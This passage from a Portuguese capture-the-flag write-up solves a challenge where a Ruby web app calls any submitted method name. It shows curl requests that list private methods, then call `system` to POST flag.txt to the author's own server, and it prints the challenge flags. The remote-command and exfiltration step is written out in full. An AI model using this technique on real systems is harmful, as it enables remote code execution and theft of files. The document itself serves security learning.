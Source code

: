 **Flag**

Registration Code: 002864

Flag: ZUP-CTF{0_Br4b0_d0_bRU73_F0rc3}

## Ferramenta Hacker

Analizando as informações mandadas ao clicar em submit, fiz umas mudanças e percebi que
ao enviar `method`s não existentes, o erro era:

```undefined method `foo' for Tool:Class```

Portanto, a string era usada diretamente para buscar os métodos de um objeto. Analizando os headers, percebi que era um servidor em Ruby, portanto usei o curl:

```bash
> curl 'http://54.94.193.248:23200/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'method=private_instance_methods'

...
  <textarea>[:timeout, :DelegateClass, :Digest, :humanize, :sprintf, :format, :Integer, :Float, :String, :Array, :Hash, :autoload, :warn, :local_variables, :autoload?, :require, :require_relative, :raise, :fail, :global_variables, :__method__, :__callee__, :__dir__, :eval, :iterator?, :block_given?, :catch, :throw, :loop, :binding, :URI, :gem_original_require, :trace_var, :untrace_var, :at_exit, :select, :Rational, :Complex, :`, :gem, :set_trace_func, :j, :JSON, :caller, :caller_locations, :test, :fork, :jj, :respond_to_missing?, :exit, :gets, :proc, :lambda, :sleep, :initialize_copy, :initialize_clone, :initialize_dup, :load, :syscall, :open, :printf, :print, :putc, :puts, :readline, :readlines, :p, :system, :exec, :exit!, :spawn, :abort, :rand, :srand, :trap, :method_missing, :singleton_method_added, :singleton_method_removed, :singleton_method_undefined, :initialize]</textarea>
...
```

Para listar os métodos privados do objeto e, após notar o método `system`, tentei
utilizá-lo para listar os arquivos, contudo, eu só recebia um `true` ou `false` ao invés
da saída do `ls`. Utilizei disso para descobrir que existia um arquivo flag.txt (afinal,
`cat arquivoquenexiste.txt` retornava `false` e `cat flag.txt` retornava `true`) e enviei
um curl que usaria o conteúdo do flag.txt como payload de um request para um servidor
meu, onde estaria rodando um processo logando o corpo para que eu pudesse ler o conteúdo:

```bash
> curl 'http://54.94.193.248:23200/' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'message=curl -XPOST --data @flag.txt https://<meu server aq>/cat&method=system'
```

E na hora foi logado no meu servidor a flag.

**Flag**

ZUP-CTF{Env1ar_e__muit00_dangerous_methodf}

## Eu odeio Injeção
**Falha**
